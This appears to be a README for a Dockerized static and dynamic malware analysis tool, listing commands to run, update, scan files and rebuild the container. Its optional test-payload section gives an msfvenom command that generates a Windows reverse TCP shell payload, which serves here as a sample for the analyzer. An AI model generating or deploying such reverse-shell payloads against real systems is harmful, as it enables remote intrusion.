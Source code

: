 <H3>ALL IN ONE MALWARE ANALYSIS (STATIC AND DYNAMIC)</H3>
tuts: https://youtu.be/5Z4QXIDQVyE?si=UXykY_vxrarTooxw&t=646

**RUN**
`docker run -it --rm -v ~/www/:/data quickscope:latest

**HELP**
`docker run -it --rm -v ~/www/:/data quickscope:latest -h`

**UPDATE**
`docker run -it --rm -v ~/www/:/data quickscope:latest --db_update`

**SCAN**
`docker run -it --rm -v ~/www/:/data quickscope:latest --file <file/to/scan.exe> --analyze`

---

**NOTE**
IF YOU ADDED SOME MODIFICATIONS, 
YOU HAVE TO REBUILD THE CONTAINER BEFORE USING IT
`sudo docker build -t qu1cksc0pe .`

---
**TEST PAYLOADS (OPTIONAL)**

basic windows (bin)
`msfvenom -p windows/x64/shell/reverse_tcp lhost=wlan lport=9443 -f raw -o basic.bin`

